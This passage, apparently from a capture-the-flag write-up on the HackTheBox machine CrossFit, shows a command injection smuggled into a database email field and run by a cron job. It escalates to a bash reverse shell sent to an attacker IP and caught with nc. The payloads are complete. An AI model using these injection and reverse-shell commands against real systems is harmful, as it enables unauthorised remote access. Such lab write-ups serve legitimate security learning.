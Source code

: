     
    
    lftp ftpadm@ftp.crossfit.htb:/messages> put test.txt
    35 bytes transferred    
    

And add the injection:

    
    
    MariaDB [crossfit]> insert into users(email) values('--wrong || touch /dev/shm/0xdf');
    Query OK, 1 row affected (0.001 sec)
    

The `watch` updates showing the new user added:

    
    
    Every 2.0s: date; mysql -u crossfit -poeL...  crossfit: Tue Jan 26 17:21:33 2021
    
    Tue Jan 26 17:21:33 EST 2021
    id      email
    52      0xdf@crossfit.htb
    81      --wrong || touch /dev/shm/0xdf
    

When the minute rolls around, the `watch` updates and the injection email is
gone:

    
    
    Every 2.0s: date; mysql -u crossfit -poeL...  crossfit: Tue Jan 26 17:22:16 2021
    
    Tue Jan 26 17:22:16 EST 2021
    id      email
    52      0xdf@crossfit.htb
    0xdf
    

The file `0xdf` showed up in `/dev/shm`. The injection worked.

### Shell

Now I’ll just update the injection to return a reverse shell:

    
    
    MariaDB [crossfit]> insert into users(email) values('--wrong || bash -c "bash -i &> /dev/tcp/10.10.14.11/443 0>&1"');
    Query OK, 1 row affected (0.002 sec)
    

Making sure to re-upload a file over FTP, when the cron runs, a shell comes
back:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.208.
    Ncat: Connection from 10.10.10.208:35360.
    bash: cannot set terminal process group (8383): Inappropriate ioctl for device
    bash: no job control in this shell
    isaac@crossfit:~$ id
    uid=1000(isaac) gid=1000(isaac) groups=1000(isaac),50(staff),116(ftp),1005(admins)
    